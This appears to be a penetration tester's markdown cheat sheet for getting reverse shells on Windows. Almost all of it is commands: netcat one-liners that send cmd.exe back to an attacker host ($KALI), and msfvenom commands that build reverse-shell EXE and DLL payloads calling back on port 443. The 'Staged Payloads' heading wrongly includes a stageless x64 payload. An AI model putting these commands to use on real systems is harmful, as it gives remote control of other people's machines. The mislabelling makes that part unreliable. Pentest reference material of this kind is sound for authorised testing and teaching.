 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### CMD nc command

![[rlwrap]]

```command prompt - windows
nc64.exe -nv $KALI 443 -e cmd.exe
```

```command prompt - windows
nc.exe -nv $KALI 80 -e C:\WINDOWS\System32\cmd.exe
```

#### PowerShell nc command
```powershell - windows
.\nc64.exe -nv $KALI 443 -e cmd.exe
```

### MSFVenom

Staged - Sends payload in stages, can be less stable.
	windows/meterpreter/reverse_tcp
	
Stageless - Sends exploit shellcode all at once, larger in size, won't always work.
	windows/meterpreter_reverse_tcp

#### Staged Payloads - WILL NOT WORK WITH NC!
```bash - kali
msfvenom -p windows/shell/reverse_tcp LHOST=$KALI LPORT=443 -f exe > reverse86.exe
```

```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe > reverse64.exe
```
	
#### Stageless Payloads
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe > reverse86.exe
```

```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe > reverse64.exe
```

#### DLL
[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#SMB File Transfer]]

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f dll -o reverse86.dll
```
